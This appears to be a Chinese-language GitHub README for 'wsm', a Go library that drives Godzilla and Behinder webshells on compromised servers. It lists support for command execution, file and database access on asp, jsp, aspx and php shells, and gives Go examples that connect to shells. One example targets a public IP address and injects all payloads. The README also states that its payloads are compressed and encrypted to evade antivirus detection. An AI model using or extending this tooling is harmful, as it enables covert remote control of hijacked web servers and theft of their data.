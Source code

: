 # wsm

通过 go 直接管理您的哥斯拉或冰蝎 webshell 的库

#### 哥斯拉

| 脚本类型  | 支持的加密类型    | 功能支持                                       |
| --------- | ----------------- | ---------------------------------------------- |
| asp       | XOR_BS6、XOR_RAW  | 存活验证、基本信息、命令执行、文件、数据库操作 |
| jsp、jspx | AES_BS64、AES_RAW | 存活验证、基本信息、命令执行、文件、数据库操作 |
| aspx      | AES_BS64、AES_RAW | 存活验证、基本信息、命令执行、文件、数据库操作 |
| php       | XOR_BS6、XOR_RAW  | 存活验证、基本信息、命令执行、文件、数据库操作 |

#### 冰蝎

| 脚本类型  | 支持的加密类型 | 功能支持                                       |
| --------- | -------------- | ---------------------------------------------- |
| asp       | XOR            | 存活验证、基本信息、命令执行、文件、数据库操作 |
| jsp、jspx | AES            | 存活验证、基本信息、命令执行、文件、数据库操作 |
| aspx      | AES            | 存活验证、基本信息、命令执行、文件、数据库操作 |
| php       | XOR、AES       | 存活验证、基本信息、命令执行、文件、数据库操作 |

#### 例子

冰蝎

```go
package main

import (
	"fmt"
	"github.com/go0p/wsm"
	"github.com/go0p/wsm/lib/shell"
	"github.com/go0p/wsm/lib/shell/behinder"
	"log"
)

func main() {
	info := &wsm.BehinderInfo{
		BaseShell: wsm.BaseShell{
			Url:      "http://127.0.0.1:8080/bx.jsp",
			Password: "rebeyond",
			Script:   shell.JavaScript,
			Proxy:    "http://127.0.0.1:9999",
			Headers:  nil,
		}}
	bx, err := wsm.NewBehinder(info)
	if err != nil {
		log.Println(err)
	}
	// 验证存活
	i, err := bx.Ping()
	if err != nil {
		log.Println(err)
	}
	fmt.Println(i)
}
```

##### 哥斯拉

```go
package main

import (
	"fmt"
	"github.com/go0p/wsm"
	"github.com/go0p/wsm/lib/charset"
	"github.com/go0p/wsm/lib/shell"
	"github.com/go0p/wsm/lib/shell/godzilla"
	"log"
)

func main() {
	info := &wsm.GodzillaInfo{
		BaseShell: wsm.BaseShell{
			Url:      "http://139.196.175.86:8080/bs64.jsp",
			Password: "pass",
			Script:   shell.JavaScript,
			Proxy:    "http://127.0.0.1:9999",
		},
		Key:      "key",
		Crypto:   godzilla.JAVA_AES_BASE64,
		Encoding: charset.UTF8CharSet,
	}
	g, err := wsm.NewGodzillaInfo(info)
	if err != nil {
		log.Println(err)
	}
	// 注入全部的 payload
	err = g.InjectPayload()
	if err != nil {
		log.Println(err)
	}

	isAlive, err := g.Ping()
	if err != nil {
		log.Println(err)
	}
	fmt.Println(isAlive)
}
```

更多例子可以看 [**examples**](https://github.com/Go0p/wsm/tree/main/examples)

#### 说明

**payload 进行了 gzip 压缩后再 aes 加密，这样做是为了拉取该库时，不被杀软报毒**

#### 感谢

[Behinder](https://github.com/rebeyond/Behinder)

[Godzilla](https://github.com/BeichenDream/Godzilla)

[As-Exploits](https://github.com/yzddmr6/As-Exploits)

[每篇文章](https://yzddmr6.com/)
